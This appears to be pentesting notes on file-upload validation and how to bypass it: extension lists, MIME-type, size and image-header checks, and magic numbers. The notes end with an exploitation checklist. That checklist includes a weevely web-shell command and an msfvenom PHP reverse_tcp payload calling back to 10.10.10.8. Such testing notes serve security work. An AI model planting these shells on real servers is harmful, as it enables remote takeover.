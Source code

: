 ### 2. File Name Validation:

-   File name validation is when the server validate the file that being uploaded by checking
    its extension, this validation happens based on many methods, but two of the most popular
    methods are Blacklisting File Extensions and Whitelisting File Extensions.
-   Blacklisting File extensions is a type of protection where only a specific extensions are being
    rejected from the server, Such as php, aspx. While Whitelisting File extensions is the exact
    opposite, which is only a few file extensions are allowed to be uploaded to the server, Such as
    jpg, jpeg, gif.

### 3. Content-type / MIME-type Validation:

-   Content-Type validation is when the server validate the content of the file by checking the
    MIME type of the file, which can be shown in the http request. For example, some image file
    uploads validate the images uploaded by checking if the Content-Type of the file is an image type.
-   For Example: `Content-type: image/png`

### 4. Content-Length Validation:

-   Content-Length validation is when the server checks the length of the content of the
    uploaded file and restricts a file size that can’t be exceeded, Although this type of validation is
    not very popular, But it can be shown on some file uploads.
-   For Example: `Not allow file size greater than 10 bytes`

### 5. Checking the Image Header:

-   When image upload only is allowed, most web applications usually validate the image header by using a server-side function such as `getimagesize()` in PHP. When called, this function will return the size of an image. If the file is not a valid image, meaning that the file header is not that of an image, the function will return FALSE. Therefore, several web applications typically check if the function returns TRUE or FALSE and validate the uploaded file using this information.
-   This can be bypassed by using magic numbers

[List of file signatures - Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)

# Testing For File-Upload and Exploiting.

![https://blog.yeswehack.com/wp-content/uploads/mindmap.png.webp](https://blog.yeswehack.com/wp-content/uploads/mindmap.png.webp)

## Base Step

```markdown
1. Browse the site and find each upload functionality.
2. Start with basic test by simply uploading a web shell using Weevely
   `weevely generate <password> <path>`
   OR
   Use Msfvenom `msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.8 lport=4444 -f raw`
3. Try the extension bypasses if that fails
4. Try changing content-type to bypass
5. Try Magic number bypass
6. Try Polygot or PNG IDAT chunks bypass
7. Finally if successful then upload small POC or exploit further.
```

